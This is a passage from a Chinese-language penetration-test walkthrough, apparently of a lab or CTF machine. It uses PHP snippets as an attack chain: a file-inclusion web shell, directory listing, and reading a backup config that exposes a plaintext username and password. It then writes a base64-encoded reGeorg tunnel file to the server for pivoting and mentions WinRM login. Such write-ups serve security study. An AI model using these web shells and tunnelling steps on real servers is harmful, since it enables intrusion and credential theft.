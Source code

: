 继续输入：

```
<?php include($_GET['file']);?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicS1PlCpZKUYjogYR69eHGJSTh2xz2iaxWNia9m4D5LakjqGiceOQnJ0pWYQ/640?wx_fmt=png)

可以看到... 读取了文本的刚写入的信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSyRx282JGtwNRG53mt6E7sLEibcPu9ibuEMBp8BZf3GElx31L1b8cyFQw/640?wx_fmt=png)

```
<?php print_r(scandir('..')); ?>
```

返回上一目录查看，web.config 和 web.config.old 查看下..

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSE9U9HXoWd8r07h9oGDZXhr6ib6fhE92NwontygkkvIEHYKbnleEYoRA/640?wx_fmt=png)

```
<?php echo file_get_contents('../web.config.old'); ?>
userName=simple
password=ZonoProprioZomaro:-(
```

发现了用户名密码...

二、提权

![](https://mmbiz.qpic.cn/mmbiz_png/ru93nXbREC3lsblTT6unZTCoWcPia8D84uaTauv8WPKZPQAePE6Emc28HfL5UqaUs7ia4J1pib3JRW5sS6TnHViazA/640?wx_fmt=png)

测试结果可以读取可以写入... 而且内容需要 base64 才可以写入..

这里的思路是，找到可写入的文件，或者自己写 shellcode 进行提权即可...

可以知道前面 5985 端口运行着，可以使用 winrm 进行登陆...

```
https://github.com/sensepost/reGeorg
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSMuSpCaBH6V6ZQ8XYULBCljjfTsyesLvgyDoYM2bmzFZRbrThSBod1g/640?wx_fmt=png)

跟着步骤走即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSsXp6MDTQtR5noe9OGKtc0uPyewu6vNhk3AtIZUBjTqQEtY8ej7WQWw/640?wx_fmt=png)

编译 tunnel.aspx 为 base64

```
<?php file_put_contents("tunnel.aspx",base64_decode("base64值")); ?>
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSzlDmEWtCHCsUUgmfO38nGdJOxF7Via61mMFwUicFJicNGzSwnttV6ZsUQ/640?wx_fmt=png)

结果很好，隧道建立了

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KNEbfHfE6AjBSWGKGiaEkjicSjR3bbZ3pML13Srpt7114wdLbZJHiaAhOA6OOFiaibnAKV81OJbDo4pD0A/640?wx_fmt=png)
